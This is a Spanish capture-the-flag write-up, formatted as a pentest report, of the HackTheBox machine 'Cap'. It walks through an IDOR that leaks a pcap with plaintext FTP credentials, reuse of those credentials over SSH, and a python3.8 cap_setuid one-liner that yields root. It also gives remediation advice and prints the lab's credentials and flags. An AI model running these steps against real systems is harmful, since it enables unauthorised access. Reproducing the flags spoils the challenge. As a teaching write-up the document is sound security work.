


# Cap

|Campo|Detalle|
|:--|:--|
|**Objetivo**|Cap|
|**IP**|`10.129.16.5`|
|**Sistema Operativo**|Linux|
|**Dificultad**|Fácil|
|**Plataforma**|HackTheBox|
|**Fecha**|18/06/2026|
|**Auditor**|NiettoVale|
|**Estado**|Completada|

---

## 1. Resumen

Durante la evaluación de seguridad sobre el sistema **Cap** (`10.129.16.5`), se logró comprometer totalmente el objetivo obteniendo privilegios de `root`. El vector de entrada principal fue una vulnerabilidad de tipo **Insecure Direct Object Reference (IDOR)** en la funcionalidad de captura de tráfico de red del panel de administración web, la cual permitió acceder a un archivo `.pcap` con credenciales en texto plano para el servicio FTP. Dichas credenciales fueron reutilizadas en el servicio SSH, otorgando acceso interactivo al sistema como usuario `nathan`. La escalada de privilegios se llevó a cabo mediante el abuso de una **Linux Capability** asignada incorrectamente al intérprete `python3.8` (`cap_setuid`), lo que permitió la suplantación del usuario `root` sin requerir contraseña ni pertenencia a grupos privilegiados.

**Clasificación de riesgo general:** `CRÍTICO`

---

## 2. Cadena de Ataque (Attack Chain)

1. **Reconocimiento:** El escaneo de puertos reveló tres servicios expuestos: FTP (`21/tcp`), SSH (`22/tcp`) y HTTP (`80/tcp`).
2. **Enumeración Web:** La exploración manual del panel de administración web identificó un endpoint de captura de tráfico de red (`/data/{id}`) con un parámetro numérico susceptible a enumeración (IDOR).
3. **Explotación – IDOR:** Al modificar el identificador de la URL de `/data/1` a `/data/0`, se accedió a un archivo `.pcap` generado previamente, el cual contenía credenciales FTP en texto plano (`nathan:Buck3tH4TF0RM3!`).
4. **Acceso Inicial:** Autenticación exitosa en el servicio SSH mediante reutilización de credenciales (`nathan:Buck3tH4TF0RM3!`). Obtención de shell interactiva como usuario `nathan`.
5. **Enumeración Interna:** La enumeración de Linux Capabilities reveló que `/usr/bin/python3.8` tenía asignadas las capabilities `cap_setuid` y `cap_net_bind_service+eip`.
6. **Escalada de Privilegios:** Abuso de `cap_setuid` en `python3.8` para invocar `os.setuid(0)` y ejecutar una shell como `root`.

---

## 3. Análisis Técnico

### 3.1 Reconocimiento

#### Escaneo de Puertos

```bash
sudo nmap -sS -sV -sC -O -n --min-rate 5000 -T5 10.129.16.5
```

**Puertos y servicios identificados:**

|Puerto|Estado|Servicio|Versión|
|:-:|:-:|:--|:--|
|`21`|open|FTP|vsftpd 3.0.3|
|`22`|open|SSH|OpenSSH 8.2p1 Ubuntu 4ubuntu0.2|
|`80`|open|HTTP|Gunicorn (título: _Security Dashboard_)|

**Resultado del escaneo:**

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-18 11:08 -03
Nmap scan report for 10.129.16.5
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

---

#### Enumeración Web

Al acceder a `http://10.129.16.5`, se presentó un panel de administración denominado **Security Dashboard**. Durante la inspección manual de las secciones disponibles, se identificó la funcionalidad **"Security Snapshot (5 Second PCAP + Analysis)"**, la cual genera capturas de tráfico de red en tiempo real y las almacena con un identificador numérico incremental accesible vía la ruta `/data/{id}`.

**Hallazgos:**

- Endpoint de descarga de capturas: `http://10.129.16.5/data/{id}`
- Parámetro `id` de tipo entero, sin control de acceso ni validación de propiedad del recurso.
- Al sustituir el identificador por `0` (`http://10.129.16.5/data/0`), se obtuvo acceso a un archivo `.pcap` perteneciente a una sesión previa.
- Análisis del archivo `.pcap` con Wireshark reveló credenciales FTP transmitidas en texto plano:
    - **Usuario:** `nathan`
    - **Contraseña:** `Buck3tH4TF0RM3!`

---

### 3.2 Acceso Inicial (Foothold)

**Vulnerabilidad:** Insecure Direct Object Reference (IDOR) + Credenciales en texto plano en tráfico FTP + Reutilización de contraseña en SSH  
**Servicio afectado:** HTTP (`80/tcp`), FTP (`21/tcp`), SSH (`22/tcp`)  
**Herramienta/técnica:** Navegación manual, análisis de `.pcap` con Wireshark, autenticación SSH

**Procedimiento:**

```bash
# Paso 1: Acceso al archivo .pcap mediante manipulación del parámetro IDOR
# Navegar a: http://10.129.16.5/data/0
# Se descarga un archivo .pcap con tráfico FTP capturado previamente.

# Paso 2: Análisis del archivo .pcap con Wireshark
# Filtro aplicado: ftp
# Se observan los comandos USER y PASS en texto plano:
#   USER nathan
#   PASS Buck3tH4TF0RM3!

# Paso 3: Verificación de credenciales en FTP
ftp 10.129.16.5
# Usuario: nathan
# Contraseña: Buck3tH4TF0RM3!

# Paso 4: Reutilización de credenciales en SSH
ssh nathan@10.129.16.5
# Contraseña: Buck3tH4TF0RM3!
```

**Resultado:** Shell interactiva como usuario `nathan` en `10.129.16.5`.

```
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
```

---
### 3.3 Escalada de Privilegios

#### Enumeración Interna

```bash
# Verificación de permisos sudo (sin resultado relevante)
sudo -l

# Enumeración de Linux Capabilities asignadas
getcap -r / 2>/dev/null
```

**Hallazgos relevantes:**

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

El binario `/usr/bin/python3.8` tiene asignada la capability `cap_setuid`, lo que permite a cualquier proceso ejecutado por dicho intérprete modificar el UID efectivo del proceso en curso, incluyendo la suplantación del usuario `root` (UID 0), sin necesidad de privilegios de superusuario previos.
#### Explotación del Vector de PrivEsc

**Vector:** Abuso de Linux Capability `cap_setuid` en `/usr/bin/python3.8`  
**Referencia:** GTFOBins – Python – Capabilities

```bash
# Escalada de privilegios mediante cap_setuid en python3.8
python3.8 -c 'import os; os.setuid(0); os.execl("/bin/sh", "sh")'
```

**Resultado:** Shell como `root`.

```
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

---

## 4. Vulnerabilidades Identificadas

### 4.1 Insecure Direct Object Reference (IDOR) en endpoint `/data/{id}`

|Campo|Detalle|
|:--|:--|
|**CVE**|N/A|
|**CWE**|CWE-639 – Authorization Bypass Through User-Controlled Key|
|**CVSS v3.1**|7.5 (ALTO)|
|**Sistema Afectado**|`10.129.16.5` – HTTP (`80/tcp`)|
|**Tipo**|IDOR / Broken Access Control|

**Descripción técnica:**  
La funcionalidad de generación y consulta de capturas de tráfico de red (`/data/{id}`) expone los recursos mediante un identificador numérico secuencial sin implementar controles de autorización a nivel de objeto. Esto permite que cualquier usuario autenticado —o no autenticado— acceda a capturas generadas por otras sesiones simplemente modificando el valor del parámetro `id` en la URL. La ausencia de validación de propiedad del recurso constituye una falla de control de acceso clasificada dentro del Top 10 de OWASP (A01:2021 – Broken Access Control).

**Impacto:**  
Un atacante puede acceder a capturas de tráfico de red pertenecientes a otros usuarios o sesiones del sistema, con potencial exposición de credenciales, tokens de sesión u otra información sensible transmitida en texto plano. En el escenario evaluado, esta vulnerabilidad permitió la obtención de credenciales válidas del servicio FTP, comprometiendo la **confidencialidad** de los datos capturados.

**Remediación:**

- **Inmediata:** Restringir el acceso al endpoint `/data/{id}` exclusivamente a los recursos generados por la sesión del usuario autenticado, mediante validación server-side del propietario del recurso solicitado.
- **Corto plazo:** Implementar identificadores de recursos no predecibles (UUIDs v4) en lugar de identificadores numéricos secuenciales. Aplicar controles de autorización basados en sesión o token en todos los endpoints que expongan recursos de usuario.
- **Largo plazo:** Incorporar revisiones de control de acceso en el ciclo de desarrollo seguro (SDLC). Realizar pruebas de autorización automatizadas como parte del pipeline CI/CD.

---

### 4.2 Transmisión de Credenciales en Texto Plano sobre FTP

|Campo|Detalle|
|:--|:--|
|**CVE**|N/A|
|**CWE**|CWE-319 – Cleartext Transmission of Sensitive Information|
|**CVSS v3.1**|7.5 (ALTO)|
|**Sistema Afectado**|`10.129.16.5` – FTP (`21/tcp`)|
|**Tipo**|Misconfiguration / Insecure Protocol|

**Descripción técnica:**  
El servicio FTP (`vsftpd 3.0.3`) opera sin cifrado de canal (sin TLS/FTPS), lo que implica que todas las comunicaciones —incluyendo el proceso de autenticación— se transmiten en texto plano. Cualquier actor con capacidad de capturar tráfico de red en el segmento correspondiente puede interceptar las credenciales de acceso sin necesidad de técnicas activas de ataque. En el contexto de esta evaluación, las credenciales fueron recuperadas directamente desde un archivo `.pcap` obtenido mediante la vulnerabilidad IDOR descrita en la sección 4.1.

**Impacto:**  
La interceptación de credenciales FTP puede derivar en acceso no autorizado al sistema de archivos expuesto por el servicio, así como en ataques de reutilización de contraseña sobre otros servicios del sistema (SSH, paneles de administración, etc.), comprometiendo la **confidencialidad** y potencialmente la **integridad** del sistema.

**Remediación:**

- **Inmediata:** Deshabilitar el servicio FTP si no es estrictamente necesario para la operación del sistema.
- **Corto plazo:** Migrar a protocolos de transferencia de archivos con cifrado nativo: SFTP (sobre SSH) o FTPS (FTP sobre TLS). Configurar `vsftpd` con soporte TLS si la migración no es inmediatamente viable.
- **Largo plazo:** Establecer una política de prohibición de protocolos en texto plano en toda la infraestructura. Auditar periódicamente los servicios de red expuestos.

---

### 4.3 Reutilización de Contraseña entre Servicios (FTP → SSH)

|Campo|Detalle|
|:--|:--|
|**CVE**|N/A|
|**CWE**|CWE-522 – Insufficiently Protected Credentials|
|**CVSS v3.1**|8.1 (ALTO)|
|**Sistema Afectado**|`10.129.16.5` – SSH (`22/tcp`)|
|**Tipo**|Misconfiguration / Credential Reuse|

**Descripción técnica:**  
El usuario `nathan` utiliza la misma contraseña (`Buck3tH4TF0RM3!`) para autenticarse en los servicios FTP y SSH. La reutilización de credenciales amplifica el impacto de cualquier compromiso parcial: la exposición de credenciales en un servicio de menor criticidad (FTP sin cifrado) resulta directamente en el acceso a servicios de mayor criticidad (SSH con shell interactiva), sin requerir técnicas adicionales de explotación.

**Impacto:**  
El compromiso de las credenciales FTP derivó en acceso interactivo completo al sistema mediante SSH como usuario `nathan`, comprometiendo la **confidencialidad** e **integridad** del sistema a nivel de usuario no privilegiado.

**Remediación:**

- **Inmediata:** Cambiar las credenciales del usuario `nathan` en todos los servicios afectados.
- **Corto plazo:** Implementar autenticación por clave pública en SSH y deshabilitar la autenticación por contraseña.
- **Largo plazo:** Establecer una política de gestión de credenciales que prohíba la reutilización de contraseñas entre servicios. Implementar un gestor de credenciales corporativo e incorporar controles de concienciación en seguridad para los usuarios del sistema.

---

### 4.4 Asignación Incorrecta de Linux Capability `cap_setuid` a Python 3.8

|Campo|Detalle|
|:--|:--|
|**CVE**|N/A|
|**CWE**|CWE-250 – Execution with Unnecessary Privileges|
|**CVSS v3.1**|8.8 (ALTO)|
|**Sistema Afectado**|`10.129.16.5` – Sistema de archivos local|
|**Tipo**|Privilege Escalation / Misconfiguration|

**Descripción técnica:**  
El binario `/usr/bin/python3.8` tiene asignada la Linux Capability `cap_setuid+eip`, lo que permite a cualquier proceso ejecutado por dicho intérprete invocar la syscall `setuid()` para modificar el UID efectivo del proceso. Dado que Python expone esta syscall directamente a través del módulo `os` (`os.setuid()`), un usuario local sin privilegios puede trivialmente escalar a `root` (UID 0) ejecutando código Python arbitrario. Esta configuración no responde a un requisito funcional legítimo y representa una misconfiguration de alto impacto.

**Impacto:**  
Cualquier usuario local con acceso al intérprete `python3.8` puede obtener privilegios de `root` sin necesidad de conocer la contraseña del administrador ni explotar vulnerabilidades adicionales, comprometiendo la **confidencialidad**, **integridad** y **disponibilidad** totales del sistema.

**Remediación:**

- **Inmediata:** Revocar la capability `cap_setuid` del binario `python3.8`:
    
    ```bash
    sudo setcap -r /usr/bin/python3.8
    ```
    
- **Corto plazo:** Auditar todas las Linux Capabilities asignadas en el sistema mediante `getcap -r / 2>/dev/null` y revocar aquellas que no respondan a un requisito funcional documentado y justificado.
- **Largo plazo:** Incorporar la revisión de Linux Capabilities en los procedimientos de hardening del sistema operativo. Aplicar el principio de mínimo privilegio en la asignación de capabilities a binarios de propósito general (intérpretes, herramientas de scripting).

---
## 5. Evidencias

#### Análisis  de tráfico

<div align="center">
	
</div>

#### Acceso y enumeración por FTP

<div align="center">
	
</div>

#### User Flag

```
4d18a2374989c3863e9cfd90490afb9f
```

_Comando ejecutado:_ `cat /home/nathan/user.txt`
#### Root Flag

```
b7b02ad1c62eef54ef2a571876f01dd7
```

_Comando ejecutado:_ `cat /root/root.txt`

## 6. Referencias

- [CWE-639 – Authorization Bypass Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html)
- [CWE-319 – Cleartext Transmission of Sensitive Information](https://cwe.mitre.org/data/definitions/319.html)
- [CWE-250 – Execution with Unnecessary Privileges](https://cwe.mitre.org/data/definitions/250.html)
- [OWASP Top 10 – A01:2021 Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- [GTFOBins – Python – Capabilities](https://gtfobins.github.io/gtfobins/python/#capabilities)
- [Linux man-pages – capabilities(7)](https://man7.org/linux/man-pages/man7/capabilities.7.html)
- [vsftpd Documentation](https://security.appspot.com/vsftpd.html)
- [HackTheBox – Cap](https://app.hackthebox.com/machines/Cap)
